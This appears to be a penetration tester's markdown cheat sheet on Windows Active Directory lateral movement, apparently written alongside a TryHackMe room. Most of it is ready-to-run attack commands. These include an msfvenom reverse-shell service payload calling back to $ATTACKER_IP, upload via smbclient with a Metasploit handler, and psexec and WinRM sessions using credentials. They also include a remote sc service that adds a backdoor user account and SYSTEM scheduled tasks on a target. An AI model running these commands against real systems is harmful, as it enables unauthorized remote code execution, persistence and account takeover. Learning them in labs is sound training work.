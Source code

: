# AD Lateral Movement - Spawning Processes Remotely
#### !! WARNING !!
#### BEWARE REQUIREMENTS 
####  !! WARNING !!
- Access and Access to how spawning - ssh access 

See [[Windows-Processes]] for more information on Service and Processes. For ease of user the [[MSFVenom-Payloads]] for exe-service.
```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=$ATTACKER_IP LPORT=4444 -o myservice.exe
```

Requires some file infiltration for example upload with smbclient, the user **must have the correct security context**. 
```bash
smbclient -c 'put myservice.exe' -U <username> -W <workgroup> '//<domain>/share$' <Password> 
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $ATTACKER_IP; set LPORT 4444;exploit"
```

**sc.exe doesn't allow specifying credentials use runas** 

```shell-session
runas /netonly /user:<DOMAIN>\<username> "c:\reverse\shell.exe <options> $ATTACKER_IP $PORT"
```


## Psexec
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) of Sysinternal Tools is used by Admins so will less likely blocked by Firewall. See [[Sysinternals-Hub]] for more Sysinternals. It is also an Impacket tool see [[Impacket-Cheatsheet]]
Requires:
1. Port 445/TCP (SMB) 
1. Requires: `Administrator Group` Membership


`psexec` connects to `Admin$` share and uploads a service binary with the name  `psexesvc.exe` then connects to service control manager to create and run a service named `PSEXESVC` and associates the service binary with `C:\Windows\psexesvc.exe`, finally creating named pipes to handles Std(in/out/err).

```powershell
psexec64.exe \\$IP -u Administrator -p ******** -i cmd.exe
```


## Remote Process Creation Using WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely, with most Windows Server installations have WinRM enabled by default.

1. Ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
2. Requires: `Remote Management Users Group` Membership

Connect to remote powershell session:
```powershell
winrs.exe -u:Administrator -p:********** -r:$target cmd
```

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting) suggests that you can accomplish a similar thing with a Powershell by creating a PSCredential object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Enter-PSSession cmdlet to create and interactive session:
```powershell
Enter-PSSession -Computername $TARGET -Credential $credential
```

Using Invoke-Command cmdlet we can run ScriptBlocks remote via WinRM. 
```powershell
Invoke-Command -Computername $TARGET -Credential $credential -ScriptBlock {whoami}
```


## Remote Service Creation with `sc`
**sc.exe doesn't allow specifying credentials use runas** 

1. Ports:  
	1. 135/TCP, 49152-65535/TCP (DCE/RPC)
	2. 445/TCP (RPC over SMB Named Pipes)
	3. 139/TCP (RPC over SMB Named Pipes)
2.  Requires: `Administrator Group` Membership

Windows services can be leveraged to execute a command when started, `sc` we create a service on a remote host and attempt to connect to the Service Control Manager(SVCCTL) remote service program through RPC in multiple ways.
1. DCE/RPC `Request -> EMP(port 135) -> Response=SVCCTL is <dynamic port>` Then `RPC Bind to SVCCTL on <dynamic port>`
2. If the above failes `sc` connects to port `Named pipe <\pipe\svcctl\>` on port 445 (SMB or 139 ()

```powershell
sc.exe \\$TARGET create Badbadservice binPath= "net user friend Pass123 /add" start= auto
sc.exe \\$TARGET start Badbadservice
# To Stop and Delete service 
sc.exe \\$TARGET stop Badbadservice
sc.exe \\$TARGET delete Badbadservice
```


## Creating Scheduled Tasks Remotely
`schtasks` can create tasks remotely with `/s` flag.
```powershell
schtasks /s $TARGET /RU "SYSTEM" /create /tn "Badtask" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $TARGET /run /TN "Badtask" 
# To delete
schtasks /S $TARGET /TN "Badtask" /DELETE /F
```

## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 